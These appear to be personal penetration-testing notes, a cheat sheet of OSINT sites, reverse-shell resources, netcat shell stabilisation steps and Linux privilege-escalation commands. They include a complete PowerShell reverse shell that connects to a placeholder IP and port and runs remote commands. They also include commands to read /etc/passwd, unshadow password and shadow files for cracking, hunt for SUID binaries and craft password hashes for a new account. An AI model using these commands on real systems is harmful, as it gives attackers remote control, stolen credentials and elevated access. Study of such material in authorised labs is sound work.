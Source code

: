 OSINT

SSL/TLS cert validation - http://crt.sh/ - good for identifying subdomains
DNS queries: https://dnsdumpster.com/
Public db of everything: https://www.shodan.io/

https://www.exploit-db.com/

https://crackstation.net/

Payloads all the things: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
Reverse shell cheatsheet: https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
Sec Lists: https://github.com/danielmiessler/SecLists

Netscat Shell stabilitisation

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. export TERM=xterm
3. Ctrl + Z then stty raw -echo; fg

1. sudo apt install rlwrap
2. rlwrap nc -lvnp <port>
3. stty raw -echo; fg

Self signed crt: openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
Merge key and crt into pem: cat shell.key shell.crt > shell.pem
PS reverse shell: powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

cat /etc/passwd | grep home
sudo -l
ipconfig
netstat -a
netstat -au
netstat -at
netstat -lp
netstat -ltp
netstat -s
netstat -tp
netstat -i

find / -perm a=x -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null => Find files with the SUID bit, which allows us to run the file with a higher privilege level than the current user.

https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist
    - https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
    - https://github.com/mzet-/linux-exploit-suggester
    - https://github.com/diego-treitos/linux-smart-enumeration
    - https://github.com/linted/linuxprivchecker
    - https://github.com/rebootuser/LinEnum

https://gtfobins.github.io/

find / -type f -perm -04000 -ls 2>/dev/null - will list files that have SUID or SGID bits set

unshadow passwd.txt shadow.txt > passwords.tx
openssl passwd -1 -salt <salt> <password> - generate salted hash for a new password
su <new account> - change account

getcap -r / - list enabled capabilities